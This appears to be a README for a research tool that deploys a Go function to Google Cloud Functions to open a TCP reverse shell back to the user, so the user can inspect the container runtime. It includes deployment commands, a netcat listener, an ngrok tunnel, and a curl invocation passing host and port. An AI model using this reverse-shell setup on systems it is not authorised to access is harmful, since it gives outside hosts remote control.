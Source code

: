 # Puma Prey Cheetah

Cheetah is a Go function that can be deployed to the Google Cloud Platform to establish a TCP reverse shell for the purposes of introspecting the Cloud Functions container runtime.

## Installing Prerequisites

* [Node.js / NPM](https://nodejs.org/en/download/)
* [Function Deployment Service Account](https://cloud.google.com/functions/docs/concepts/iam#cloud_functions_service_account)

## Deploying The Function

### Serverless Framework

```bash
export GOPATH=/PATH/TO/cheetah
cd /PATH/TO/cheetah/src/cheetah
make
```

Follow the steps at the top of the `serverless.yml` file to generate a credentials file. Modify the `serverless.yml` file to point to your GCP project ID and the **absolute path** of the credentials file.

```bash
npm install
npx serverless deploy
```

### Native GCloud Commands

To deploy natively without the serverless framework, configure `gcloud` in the Terminal to authentication as the deployment service account. Then, deploy the function.

```bash
gcloud auth activate-service-account --key-file ~/.gcloud/keyfile.json
gcloud functions deploy cheetah --entry-point Cheetah --runtime go111 --trigger-http --service-account=XXXXXXXXX-compute@developer.gserviceaccount.com
```

## Deploying Assets

Create some secrets and grant permissions to the SA. Side note: wow, they really don't want you passing these values via the command line. Makes sense for real secrets though.

```
echo "cheetah_user" | gcloud beta secrets create cheetah-database-user --data-file=- --replication-policy=automatic

echo "TmV2ZXIgcGxheSBwb2tlciB3aXRoIHRoZSB3b3JsZCdzIGZhc3Rlc3QgYW5pbWFsLCBiZWNhdXNlIGhlJ3MgYSBjaGVldGFoLiAtIGNvb2xmdW5ueXF1b3Rlcy5jb20g" | gcloud beta secrets create cheetah-database-pass --data-file=- --replication-policy=automatic

gcloud beta secrets add-iam-policy-binding cheetah-database-user --member serviceAccount:XXXXXXXXX-compute@developer.gserviceaccount.com --role roles/secretmanager.secretAccessor

gcloud beta secrets add-iam-policy-binding cheetah-database-user --member serviceAccount:XXXXXXXXX-compute@developer.gserviceaccount.com --role roles/secretmanager.secretAccessor
```

## Testing in GCP

Set up a TCP listener for your reverse shell, such as with [Netcat](http://netcat.sourceforge.net/):

```bash
nc -l 4444
```

To make your listener accessible from the public internet, consider using a service like [ngrok](https://ngrok.com/):

```bash
ngrok tcp 4444
```

Invoke your function, supplying your connection details:

```bash
curl 'http://us-central1-YOUR_GOOGLE_CLOUD_PLATFORM_PROJECT_ID.cloudfunctions.net/Cheetah?host=YOUR_PUBLICLY_ACCESSIBLE_HOST&port=YOUR_PORT_NUMBER'
```

Your listener will now act as a reverse shell for the duration of the function invocation. You can adjust the function timeout in the serverless.yml file.

## Teardown

```bash
npx serverless remove
```

## Linting

```bash
npm run lint
```

## Serverless Go Template

Creating the original function template using the serverless framework.

```bash
cd src
serverless create --template google-go --path cheetah
```

## Exploring Further

Refer to [Serverless Docs](https://serverless.com/framework/docs/providers/google/) for more information.
